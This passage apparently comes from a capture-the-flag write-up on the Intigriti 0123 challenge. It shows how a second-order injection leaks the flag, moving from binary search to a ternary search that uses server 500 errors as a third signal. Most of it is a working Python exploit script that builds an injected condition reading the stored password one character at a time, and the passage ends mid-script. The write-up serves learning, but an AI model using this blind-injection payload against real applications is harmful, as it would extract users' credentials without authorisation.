 ```py

print(f"time: {time.time() - start}s, {req_count} requests")

```

![binary search](/img/intigriti-0123-second-order-injection/p3.png)

It takes 10s and 291 requests. It can be further improved if we ignore the prefix(`INTIGRITI{`).

Is it the end? Can we go faster? Yes!

## From binary search to ternary search

Actually, we can have 3 states. When we do something illegal (like using a undeclared variable), the server returns 500 internal error.

By leveraging this error state, we can do ternary search!

```py
import requests
import json
import concurrent.futures
import string
import time

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='
FLAG_CHARSET = string.printable

req_count = 0

def leak_flag(index):
  global req_count
  session = requests.session()
  name = 'account_flag_'  + str(index)
  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
  })
  req_count += 1

  L = 0
  R = len(FLAG_CHARSET) - 1
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
      FLAG_CHARSET[L:ML],
      FLAG_CHARSET[ML:MR],
      FLAG_CHARSET[MR:R+1]
    ]

    str1 = ''.join(group[0]).replace('"', '\\"')
    str2 = ''.join(group[1]).replace('"', '\\"')

    payload = f'not@not_exist.ext" || this.password.startsWith("INTIGRITI") && ("{str1}".includes(this.password[{index}]) ? a : ("{str2}".includes(this.password[{index}]) ? 0 : 1)) && "" == "'

    print(f"try leaking {index}", group)
```